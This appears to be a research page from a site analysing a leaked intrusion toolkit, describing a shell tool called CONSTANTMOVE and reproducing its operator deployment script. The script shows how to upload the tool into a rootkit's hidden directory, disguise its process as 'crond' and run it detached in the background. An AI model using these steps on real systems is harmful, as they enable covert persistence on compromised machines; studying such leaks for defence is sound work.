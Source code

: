 [STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# CONSTANTMOVE

The dump only contains an opscript of this tool. From this opscript, we learn that CONSTANTMOVE is a shell script (has extension `.sh`) that can be run on Linux (explicit reference in opscript) and probably all other Unixes. Deploying it, is as easy as running it with bash.

The script will usually be ran "cloaked", under the protection of the STOICSURGEON rootkit.

Opscript.Constantmove:

```


# 2010-07-21 09:24:00 EDT 

# VARIABLES:
#     MAIN-DIR    = STOIC HIDDEN DIR
#     RUN-AS      = Name to run script as, will be in ps as "/bin/bash RUN_AS" (though cloaked)
#     SET-SID     = Set to nothing at all if setsid is not there (will likely only be there on Linux)

mx
:%s,MAIN_DIR,STOICHIDDENDIR,g
:%s,RUN_AS,crond,g
:%s,SET_SID,setsid,g
`x





# DEPLOYMENT: 

-cd MAIN_DIR
-lsh sed "s,# .*,,g" /current/up/constantmove.sh | sed "s,^ *$,,g" | sed "s,die  *\([0-9][0-9]*\).*,die \1,g" | grep -v "^$" > /current/up/constantmove.sh.clean ; cat /current/up/constantmove.sh.clean
-put /current/up/constantmove.sh.clean RUN_AS
-addpath .
-wh -U setsid RUN_AS
# note the NEXT LINE is backgrounded with an AMPERSAND
SET_SID RUN_AS &
=ps | egrep -v grep | egrep "sh |RUN_AS|sleep"
```
